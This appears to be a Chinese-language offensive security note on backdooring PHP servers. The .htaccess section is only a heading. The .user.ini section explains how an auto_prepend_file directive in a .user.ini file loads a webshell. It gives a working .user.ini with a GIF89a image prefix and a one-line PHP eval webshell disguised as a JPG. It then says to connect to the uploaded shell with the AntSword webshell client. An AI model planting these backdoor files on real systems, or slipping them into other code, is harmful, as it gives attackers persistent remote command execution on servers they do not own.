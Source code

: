 ### .htaccess 后门

<br>

### .user.ini 后门

#### 简介

> 参考文献：https://wooyun.js.org/drops/user.ini%E6%96%87%E4%BB%B6%E6%9E%84%E6%88%90%E7%9A%84PHP%E5%90%8E%E9%97%A8.html

> 不管是 nginx/apache/IIS，只要是以 fastcgi 运行的 php 都可以用这个方法

php 配置包含四种主要模式：PHP_INI_SYSTEM、PHP_INI_PERDIR、PHP_INI_ALL、PHP_INI_USER

1. PHP_INI_SYSTEM 配置敏感信息，仅 php.ini 有权限配置
2. 自定义配置文件有权配置 PHP_INI_SYSTEM、PHP_INI_PERDIR 模式

<br>

php 会扫描每个目录下的 ini 配置文件，根目录也不例外，但当且仅当该目录下存在至少一个 php 文件！（无 php 文件的目录不会执行扫描）

`.user.ini` 文件是我们自定义的后门配置文件  
`.user.ini` 可以在服务器不重启的情况下动态更新

<br>

#### 关键配置项

我们可以采用以下两个 php 配置项来挂载一句话木马

1. auto_append_file：指定一个文件，自动包含在需执行的文件后
2. auto_prepend_file:指定一个文件，自动包含在需执行的文件前

<br>

#### 图片马

> GIF89a 前缀表明该文件是一个图片类型文件

可以先制作一个 `.user.ini` 文件

```ini
GIF89a
auto_prepend_file=a.jpg
```

在制作一个带一句话木马的图片 `a.jpg`

```php
GIF89a
<?=eval($_POST['cmd']);?>
```

<br>

中国蚁剑找到上传点，直接连接即可

<br>
